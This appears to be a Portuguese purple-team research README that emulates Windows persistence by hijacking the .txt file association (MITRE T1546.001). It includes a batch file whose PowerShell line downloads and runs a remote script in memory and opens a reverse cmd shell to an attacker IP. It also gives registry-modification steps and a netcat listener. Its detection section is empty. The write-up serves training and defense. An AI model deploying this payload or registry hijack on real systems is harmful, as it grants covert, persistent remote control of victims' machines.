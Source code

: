 
<p align="center">
  <img src="./imagens/ISHLOGO.png" alt="Logo do Purple Team" width="300" height="300">
</p>

# CTI Purple Team - Execução Acionada por Evento: Alterar Associação de Arquivo Padrão T1546.001

Nesta pesquisa, iremos abordar a tática [TA0003](https://attack.mitre.org/tactics/TA0003/) (Persistência), dando ênfase a sub-técnica [T1546.001](https://attack.mitre.org/techniques/T1546/001/) (Event Triggered Execution: Change Default File Association).

A tática de persisência é uma das maneiras pelas quais os invasores podem explorar eventos específicos do sistema para executar código malicioso de forma persistente. Neste tipo de ataque, os invasores modificam as configurações do sistema que controlam como os arquivos serão abertos por padrão quando um usuário interage com eles. Isso pode ser explorado por meio de diversas técnicas, incluindo, manipulação de resgistros do sistema ou exploração de vulnerabilidades em aplicativos que lidam com a abertura de arquivos.

Ou seja, quando um arquivo é criado em um sistema operacional como o Windows, ele é automaticamente associado a um programa específico que será usado para abrir esse tipo de arquivo. A execução acionada por evento permite que os usuários personalizem a maneira como os arquivos são abertos, definindo regras específicas para acionar a execução de aplicativos diferentes com base em diferentes eventos.

<p align="center">
  <img src="imagens/Fluxograma_ServiceExecution.png">
  <br>
  Figura 1: Fluxograma de Execução de Serviço
</p>

**A priori, para executar o sequestro de extensão, é importante salientar que o atacante já possua o primeiro acesso inicial à máquina alvo, com privilégios administrativos. Portando, já ter realizado a Execução e Escalação de Privilégios na vítima**.

## Contexto
Neste contexto, exploraremos os conceitos por trás da execução acionada por evento representando o sequestro da extenção ***.txt***, sendo possível executar um aplicativo malicioso antes que o arquivo real seja aberto, gerando um shell reverso na máquina do atacante, a fim de obter persistência. Vale lembrar que essa técnica pode ser usada para modificar qualquer tipo de extensão de arquivo como ***.exe***, ***.dll***, ***.bat***, ***.cmd*** entre muitas outras extensões, que podem ser exploradas por invasores para obter persistência em um sistema.

**Info:** É possível executar este processo de duas maneiras: por meio da interface gráfica ou utilizando CLI como prompt de comandos (CMD).

Ao manipular essas chaves do registro, os invasores podem garantir que seu código malicioso seja executado sempre que o usuário iniciar uma sessão no sistema, permitindo a persistência do ataque. Para prevenir esse tipo de ataque, é importante adotar práticas de segurança robustas, os usuários devem monitorar regularmente as chaves de registro em HKCU em busca de alterações não autorizadas, manter o sistema e os aplicativos atualizados, restringir privilégios de usuário para minimizar o impacto de possíveis ataques e educar os usuários sobre práticas seguras de computação, como não abrir arquivos de fontes desconhecidas.

Uma vez que essa associação de arquivo padrão é alterada, o código malicioso pode ser executado repetidamente sempre que o usuário tentar abrir um arquivo do tipo afetado, permitindo que o invasor mantenha acesso persistente ao sistema mesmo após reinicializações ou reinstalações do sistema operacional.

Por exemplo, um invasor pode modificar a associação de arquivo padrão para um tipo específico de arquivo, como documentos do Microsoft Word (.docx), para que, sempre que um usuário tente abrir esse tipo de arquivo, o sistema execute automaticamente um arquivo malicioso em vez de abrir o aplicativo correspondente. 

As seleções de associação de arquivos são armazenados no **Registro do Windows** e estão listadas em **HKEY_CLASSES_ROOT.[extention]**, no caso dessa pesquisa será listado em **HKEY_CLASSES_ROOT.txt** e, podem ser editados por usuários com permissões elevadas/administradores que tenham acesso ao Registro.

## Emulação de Ameaça I - Criação de Arquivo Malicioso Através de Interface Gráfica

Há dois locais de registro que definem os manipuladores de extensão, que são mostrados a seguir, e são classificados como: *Global* e *Local*.

<p align="center">
  <img src="imagens/locais-de-registro.png">
  <br>
  Figura 2: Locais de registro Global e Local
</p>

Quando um arquivo é aberto, o sistema operacional verifica os registros locais em (HKEY_CURRENT_USER) para determinar qual programa está designado para lidar com aquela extensão de arquivo. Caso não houver nenhuma entrada de registro associada, a verificação será feita na árvore de registro global (HKEY_CLASSES_ROOT).

<p align="center">
  <img src="imagens/chave-de-registro-user.png">
  <br>
  Figura 2: Locais de registro Global e Local
</p>

Acima, temos o exemplo de que a chave de registro local não possui nenhum aplicativo padrão designado para abrir arquivos de texto, confirmando a infromação acima. 

Dependendo dos privilégios do usuário (Administrador ou Usuário Padrão), esses locais de registro podem ser explorados para executar código malicioso, utilizando o manipulador de extensão como um gatilho.

Portanto, podemos observar que o manipulador de extensão ***.txt*** está definido na chave de registro abaixo:
```zsh
Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command
```

Ao abir um arquivo ***.txt***, o windows por padrão sabe que para abrir esse tipo de extensão precisa usar o ***notepad.exe***. Abaixo exemplifico que o comando responsável por abrir arquivos *.txt* é o *notepad.exe %1*, onde o argumento *%1*, especifica um nome de arquivo qualquer, ou seja, é uma variante para o nome dos arquivos que o bloco de notas deve abrir:

<p align="center">
  <img src="imagens/Editor-de-registro-HKEY.png">
  <br>
  Figura 3: Editor de registro HKEY_CLASSES_ROOT\txtfile\shell\open\command
</p>

Supomos que o usuário alvo possua uma arquivo chamado ***test.txt*** em sua área de trabalho, contendo o conteúdo do arquivo ilustrado abaixo:

<p align="center">
  <img src="imagens/arquivo-vitima.png">
  <br>
  Figura 4: Arquivo de teste para emulação
</p>

Iremos criar agora um arquivo malicioso que será executado quando o usuário alvo tentar abrir o arquivo chamado test.txt, sendo que com a execução desta têcnica pode ser qualquer arquivo aleatório, apenas seguindo o critério de extenção .txt usado como exemplo nesta pesquisa.

Para isso, criaremos um arquivo em lotes simples do Windows chamado ***shell.cmd*** na maquina do usuário alvo:
```zsh
start notepad.exe %1
powershell -nop -exec bypass -c IEX (New-Object Net.WebClient).DownloadString('http://192.168.140.128/purplecat.ps1');purplecat -c 192.168.140.128 -p 8081 -e cmd.exe"


```

Este comando do PowerShell baixa um script remoto chamado purplecat.ps1 e executa em memória, pois ele não toca no disco, e em seguida, usa esse script para estabelecer uma conexão "backdoor" com uma máquina remota no endereço IP 192.168.140.128 (ip da máquina atacante) na porta 8081, permitindo que comandos sejam executados cmd.exe nessa máquina.

A partir disso, podemos sequestrar a extensão do arquivo .txt, modificando os dados do valor de registro de Computer\HKEY_CLASSES_ROOT\txtfile\shell\open\command para C:\Users\Win-test\Desktop\shell.cmd, local onde nosso arquivo malicioso está gravado.

<p align="center">
  <img src="imagens/mod.registro.png">
  <br>
  Figura 5: Manipulador de registro sendo modificado
</p>

Após a modificação a chave de registro se encontrará da mesma maneira que a imagem a seguir:

<p align="center">
  <img src="imagens/modificado.png">
  <br>
  Figura 6: Manipulador de registro modificado 
</p>

A seguir na máquina do atacante, iremos rodar dois comandos no terminal, um para servir para baixar o arquivo aberto pelo usuário e outro para escutar a porta selecionada para sequestrar a sessão do sistema da vítima:

<p align="center">
  <img src="imagens/comando-para-baixar-arquivo.png">
  <br>
  Figura 7: Comando servindo para baixar arquivo executado
</p>

O comando acima, serve o arquivo para outra pessoa baixar os arquivos .txt abertos pela vítima. E o comando abaixo utilizaremos o [*NetCat*](https://www.devmedia.com.br/netcat-o-canivete-suico-tcp-ip-revista-infra-magazine-8/26299#:~:text=O%20Netcat%2C%20criado%20em%202004,conectividade%2C%20seguran%C3%A7a%2C%20entre%20outros.) como Listener, ao ser iniciado irá ouvir qualquer conexão realizada na porta **8081/TCP**. 

<p align="center">
  <img src="imagens/comando-escustar-maquina-alvo.png">
  <br>
  Figura 8: Comando NetCat servindo como listener
</p>

Após realizar todos esses passos e o processo de persisência configurado na máquina alvo com seucesso, quando o usuário alvo abrir qualquer arquivo de texto, o arquivo malicioso será executado simultâneamente, a comunicação será estabelecida com o *listener* na porta **8081/TCP**, mencionada acima. Abaixo é possível visualizar a execução.

<p align="center">
  <img src="imagens/gif-emulação.gif">
  <br>
  Figura 9: Obtendo shell reverso com cmd
</p>

## Engenharia de Detecção



# Conclusão

Esperamos que você que leu ou assistiu o Webinar, possa ter compreendido a inteligência que trouxemos nesta pesquisa. Qualquer dúvida, é só nos contactar.

## Link do Webinar

Caso você não pode participar do Webinar de apresentação da pesquisa, ou gostaria rever, basta clicar neste [link](https://ishtecnologia.sharepoint.com/sites/CTI-PurpleTeam/_layouts/15/stream.aspx?id=%2Fsites%2FCTI%2DPurpleTeam%2FDocumentos%20Compartilhados%2FVideos%2FCTI%20Purple%20Team%20%2D%20Movimenta%C3%A7%C3%A3o%20Lateral%20Atrav%C3%A9s%20do%20Invoke%2DSMBExec%2Emp4&referrer=StreamWebApp%2EWeb&referrerScenario=AddressBarCopied%2Eview).
